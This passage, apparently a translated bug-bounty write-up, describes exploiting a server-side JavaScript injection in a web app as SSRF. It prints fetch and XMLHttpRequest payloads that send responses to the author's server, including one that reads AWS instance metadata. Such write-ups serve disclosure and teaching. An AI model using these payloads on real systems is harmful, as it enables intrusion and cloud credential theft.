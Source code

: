 ```
fetch('https://poc.myserver.com')
```

立刻，就在我的Apache日志中获得了一行新的记录。<br>
尽管现在，它能够Ping我的服务器，但这还是一个盲目地SSRF，我并没有得到任何响应。接下来，我尝试去连接两个请求，其中第二个请求负责发送第一个请求的结果。具体如下：

```
x1 = new XMLHttpRequest;
x1.open( 'GET','https://...', false );
x1.send();
r = x1.responseText;

x2 = new XMLHttpRequest;
x2.open( 'GET','https://poc.myserver.com/?r='+r, false );
x2.send();
```

又一次，我查询到了fetch()函数的正确语法，并成功使用，感谢StackOverflow。<br>
在使用下面代码时，能够正确运行：

```
fetch('https://...').then(res=&gt;res.text()).then((r)=&gt;fetch('https://poc.myserver.com/?r='+r));
```

当然，这也在意料之中。



## 通向胜利的SSRF

我首先尝试读取本地文件

```
fetch('file:///etc/issue').then(res=&gt;res.text()).then((r)=&gt;fetch('https://poc.myserver.com/?r='+r));
```

但在我的Apache日志文件中，响应（r参数）为空。<br>
由于我发现了一些与ArticMonkey相关的S3 Bucket（articmonkey-xxx），因此我认为该公司也可能将AWS服务器用于他们的Web APP中。在一些响应的X-Cache头部中，这一观点也得到了验证。于是，我迅速使用了云实例最常见的SSRF URL列表（ [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SSRF%20injection) ）。<br>
当我试图访问实例的元数据时，得到了想要的效果。<br>[![](https://p3.ssl.qhimg.com/dm/1024_576_/t01ff5eadde9077fa92.png)](https://p3.ssl.qhimg.com/dm/1024_576_/t01ff5eadde9077fa92.png)<br>
最后，我借助JavaScript中的SSRF漏洞，成功获取了AWS的完全控制权限。<br>
最终Payload如下：

```
`{`...REDACTED...,"operation":"Union('1';'2;fetch("http://169.254.169.254/latest/meta-data/").then(res=&gt;res.text()).then((r)=&gt;fetch("https://poc.myserver.com/?r="+r));';'3')"`}`
```

在对输出内容进行解码后，发现返回的是目录列表：

```
ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/
hostname
iam/
...
```

